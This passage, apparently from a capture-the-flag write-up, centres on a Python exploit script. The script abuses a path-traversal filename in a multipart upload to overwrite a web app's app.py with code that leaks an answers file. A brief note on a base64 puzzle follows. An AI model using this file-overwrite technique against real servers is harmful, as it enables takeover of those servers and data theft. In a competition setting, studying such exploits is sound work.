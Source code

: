 ```python
except FileNotFoundError:
    results = []
    with open("results.json", "w") as f:
        json.dump(results, f)
def get_answer():
    # scoring with answer
    # I could change answers anytime so let's just load it every time
    with open("answers.json") as f:
        answers = json.load(f)
        for idx, i in enumerate(answers):
            exit(0)
    return answers
@app.route("/", methods=["GET"])
def index():
    res = render_template("index.html", results=sorted(results))
    ans = open('answers.json', 'r').read()
    flash(ans)
    return res
@app.route("/submit", methods=["POST"])
def submit():
    flash("Hacked")
    ans = open('answers.json', 'r').read()
    flash("Hacked:" + ans)
    return redirect("/")
    
'''.replace("\n", "\r\n")

body = (
    f"--{boundary}\r\n"
    f"Content-Disposition: form-data; name=\"file\"; filename=\"/../../../../../../tmp/web/app.py\"\r\n"
    f"Content-Type: application/json\r\n\r\n"
    f"{json_content}\r\n"
    f"--{boundary}--\r\n"
)

content_length = str(len(body.encode('utf-8')))
headers["Content-Length"] = content_length

response = session.post(url, headers=headers, cookies=cookies, data=body)

print(response.status_code)
print(response.text)
```

## 神秘代码 2

Only solved the first one. Saw what looked like a base64 alphabet later, tried custom base64 decode, got the flag.

## AI (Name Too Long to Copy)
